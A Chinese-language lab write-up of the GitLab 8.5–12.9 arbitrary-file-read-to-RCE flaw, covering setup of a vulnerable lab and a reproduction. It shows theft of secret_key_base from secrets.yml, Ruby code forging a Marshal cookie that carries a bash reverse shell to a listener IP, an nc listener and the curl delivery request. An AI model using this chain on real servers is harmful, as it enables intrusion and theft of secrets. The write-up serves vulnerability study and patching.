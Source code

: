 # 0x01 GitLab简介
GitLab 是由GitLabInc.开发，是一个用于仓库管理系统的开源项目，使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能，使用Git作为代码管理工具，并在此基础上搭建起来的web服务。

# 0x02 漏洞概述
在Gitlab 8.5-12.9版本中，存在一处任意文件读取漏洞，攻击者可以利用该漏洞，在不需要特权的状态下，读取任意文件，造成严重信息泄露，从而导致进一步被攻击的风险。

# 0x03 影响版本
- GitLab EE >=8.5，<=12.9

- GitLab CE >=8.5，<=12.9

# 0x04 环境搭建

```
靶机 centos7-1：192.168.50.167
本地gitlab centos7-2：192.168.50.125
本地gitlab ubuntu：192.168.50.227
监听机器 kali：192.168.50.53
```

## 4.1 环境搭建-Centos7

> 靶机测试版本为 gitlab-12.8.7-ce

1.安装依赖软件
```
yum -y install policycoreutils openssh-server openssh-clients postfix
```

2.设置postfix开机自启，并启动，postfix支持gitlab发信功能（对漏洞环境应该不重要）

```
systemctl enable postfix && systemctl start postfix
```

关闭防火墙

```
systemctl stop firewalld.service
```

3.下载gitlab安装包，然后安装

查看当前gitlab版本命令：

```
cat /opt/gitlab/embedded/service/gitlab-rails/VERSION
```

下载rpm包并安装:

```
wget --no-check-certificate  https://mirrors.tuna.tsinghua.edu.cn/gitlab-ce/yum/el7/gitlab-ce-12.8.7-ce.0.el7.x86_64.rpm
rpm -i gitlab-ce-12.8.7-ce.0.el7.x86_64.rpm
```

4.修改gitlab配置文件指定服务器ip和自定义端口

```
vim /etc/gitlab/gitlab.rb
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/174458230-57311f56-8e6b-45f4-a484-a80d740ca29c.png" /></div>



5.重置并启动Gitlab

执行以下命令
```
gitlab-ctl reconfigure
gitlab-ctl restart
```

显示成功启动之后，访问端口进入Gitlab页面，提示修改root密码

> PS:若出现502页面，多次刷新页面即可，这是由于Gitlab性能要求比较高，服务器响应慢导致的，推荐虚拟机内存至少分配4G。


## 4.2 环境搭建-Ubuntu
1.安装需要的库和软件
`sudo apt-get install curl openssh-server ca-certificates postfix` 
<div align=center><img src="https://user-images.githubusercontent.com/84888757/174458253-c037967a-1aca-467d-a3f5-49f08a759de3.png" /></div>
<div align=center><img src="https://user-images.githubusercontent.com/84888757/174458254-b587ebd8-bb08-4cd5-af71-314904e51823.png" /></div>

2.下载GitLab的包并进行安装
```
# 下载安装包
wget --content-disposition https://packages.gitlab.com/gitlab/gitlab-ce/packages/ubuntu/xenial/gitlab-ce_12.1.4-ce.0_amd64.deb/download.deb

# 本地安装
dpkg -i gitlab-ce_12.1.4-ce.0_amd64.deb
```

3.配置GitLab
```
vim /etc/gitlab/gitlab.rb
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/174458272-7cf864f2-ee18-4888-8422-febb4841da5a.png" /></div>

4.重置并启动Gitlab
执行以下命令
```
gitlab-ctl reconfigure
gitlab-ctl restart
```

# 0x05 漏洞复现 - 无需用户名和密码

- 🔗 [gitlab_rce.py](https://github.com/dotPY-hax/gitlab_RCE/blob/main/gitlab_rce.py)

## 5.1 任意文件读取
```
python3 gitlab_rce.py http://192.168.50.167:8888/ 192.168.50.53
```
<div align=center><img src="https://user-images.githubusercontent.com/84888757/174458300-bd371dd7-45e5-4c6a-b40f-4ca0afc76bb2.png" /></div>

## 5.2 RCE
1、首先获取`gitlab secret key base`

利用任意文件读取漏洞，下载`/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml`文件，获取`secret_key_base`

<div align=center><img src="https://user-images.githubusercontent.com/84888757/174458337-342d9d23-cb4d-4ee4-92a2-9bc1f5af0d8a.png" /></div>

2、本地`centos7-2`搭建gitlab，替换secret_key_base，生成cookie

> 🚩 Ubuntu和centos7作为本地环境，后续命令操作都一样

本地`centos7-2`刚搭建完要记得改配置，重置并启动GitLab。

<div align=center><img src="https://user-images.githubusercontent.com/84888757/174458425-e2b8be24-7ca9-4d59-8c0d-add23a4c83fe.png" /></div>

将目标机下载下来的secerts.yml覆盖在centos7-2攻击机上/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml

（也可以只替换secret_key_base）

然后**不要**再重置并启动Gitlab

3、使用`gitlab-rails console`执行以下命令

（ps：反弹shell的命令必须使用bash -c 包裹，否则反弹不了shell；使用控制台执行这些语句时，系统命令会在本机会执行一遍，所以在以上语句执行完成获取cookie值之前，不要在攻击机上执行监听端口命令）

```
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar
erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/192.168.50.53/7777 0>&1'` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/174458484-7c287448-cbae-4bec-8038-8e1e15f7d033.png" /></div>

4、在攻击机上监听端口

```
nc -lvvp 7777
```

5、构造语句执行命令，反弹shell
```
curl -v 'http://192.168.50.167:8888/users/sign_in' -b "experimentation_subject_id=cookie"
```

> （ps：注意`experimentation_subject_id`参数输入`gitlab-rails console`获取的cookie值）


<div align=center><img src="https://user-images.githubusercontent.com/84888757/174458540-1c4ff2a9-f48a-4c8d-9e2f-a3ef2808826d.png" /></div>


# 0x06 修复建议
官方已在最新版本的GitLab修复了上述漏洞，用户可从官网下载并升级软件到最新版本。

链接：https://packages.gitlab.com/gitlab/gitlab-ce

# 0x07 参考链接
- [Gitlab任意文件读取导致远程命令执行](https://juejin.cn/post/6916343939649765389)
- [Ubuntu安装GitLab 指南](https://blog.csdn.net/u014380491/article/details/122410481)


